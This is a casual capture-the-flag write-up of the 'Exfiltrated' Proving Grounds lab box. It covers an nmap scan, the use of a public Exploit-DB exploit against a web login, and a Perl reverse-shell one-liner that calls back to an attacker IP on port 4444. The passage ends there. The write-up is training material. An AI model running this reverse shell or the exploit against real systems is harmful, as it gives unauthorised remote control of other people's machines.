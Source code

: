 ```yaml
---
aliases:
  - Exfiltrated
tags:
  - pg-playground
  - linux
  - enumeration
  - exploitation
os: Linux
difficulty: Easy
date: 2025-04-11
status: owned
---
```


## Box Summary

| Field              | Value                |
| ------------------ | -------------------- |
| **Name**           | Exfiltrated          |
| **IP**             | `192.168.198.163`    |
| **OS**             | Linux                |
| **Difficulty**     | Easy                 |
| **Date Completed** | 11 Apr 2025          |
| **Exploited Via**  | RCE or PrivEsc Chain |
| **Flags Captured** | ✅ Root, ✅ User       |

---

### 2. Enumeration

Quick Nmap Scan just to see what's going on as usual:

```
nmap -sCV -p- -T4 192.168.198.163
```

Output:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sCV -p- -T4 192.168.198.163
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-10 22:45 EDT
Nmap scan report for 192.168.198.163
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.57 seconds
```

From here we can see port 80 and port 22 is open, and just searching for the ip in my browser doesnt give me a anything, so we gonna try the links 1 by 1.

![[Exfiltrated-1744341273064.jpeg]]


After much trial and error and hardwork (I'm kidding it wasn't hard at all), we find ourself some weird login page, so whats the next step to do ? try out some useless username and password like admin:admin, but nah, no way this is gonna be this easy. Imma just google for exploits:

![[Exfiltrated-1744341434736.jpeg]]

Like all script kiddies do I'm just gonna use my trusty [exploitDB](https://www.exploit-db.com/exploits/49876) and copy and paste the python code. 

🔹 Create & Activate Virtual Environment
```
python3 -m venv afu-venv
source afu-venv/bin/activate
```

🔹 Install Dependencies
```
pip install requests bs4
```

So we run the exploit:

![[Exfiltrated-1744342000765.jpeg]]

and we just happen to get in: cool beans, so ngl, I just found out that theres this thing called revshells.com after looking at an online guide because idk how to continue, but DAMN:



```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.233:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```